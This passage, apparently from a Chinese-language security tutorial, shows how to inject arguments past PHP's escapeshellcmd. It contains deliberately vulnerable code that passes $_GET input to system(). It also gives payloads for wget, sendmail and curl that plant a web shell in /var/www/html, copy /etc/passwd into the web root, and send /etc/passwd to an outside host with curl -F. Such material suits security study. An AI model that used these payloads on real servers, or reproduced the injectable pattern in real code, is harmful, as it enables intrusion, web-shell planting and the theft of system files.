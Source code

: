 但是实际利用的时候却不成功，可能是系统的原因。


```php
<?php

system("sort ".escapeshellcmd($_GET['cmd']));

?>
```



能执行命令的参数不容易找，这里再举几个能读写任意文件的例子。

### wget

把php文件保存到web目录，默认为`/var/www/html`。

```php
$url = '--directory-prefix=/var/www/html http://example.com/example.php';
system(escapeshellcmd('wget '.$url));
```
也可以用`-O`（大写），注意小写是写wget命令输出的内容。
```php
$url = '-O /var/www/html/shell.php http://example.com/example.php';
system(escapeshellcmd('wget '.$url));
```
`-i`可以读本地文件，因为读出来的文件是会报错的，所以属于wget输出的内容，需要用小写的`-o`。

```php
$url = '-i /etc/passwd -o /var/www/html/tmp.txt';
system(escapeshellcmd('wget '.$url));
```



### sendmail

输出 `/etc/passwd` 到`/var/www/html/output`

```php
$from = 'from@sth.com -C/etc/passwd -X/var/www/html/output';
system("/usr/sbin/sendmail -t -i -f".escapeshellcmd($from ));
```



### curl

下载php文件到web目录

```php
$url = 'http://example.com/xxxx -o /var/www/html/shell.php';
system(escapeshellcmd('curl '.$url));
```

读取`/etc/passwd` 并发送到`http://example.com`.
```php
$url = '-F password=@/etc/passwd http://example.com';
system(escapeshellcmd('curl '.$url));
```

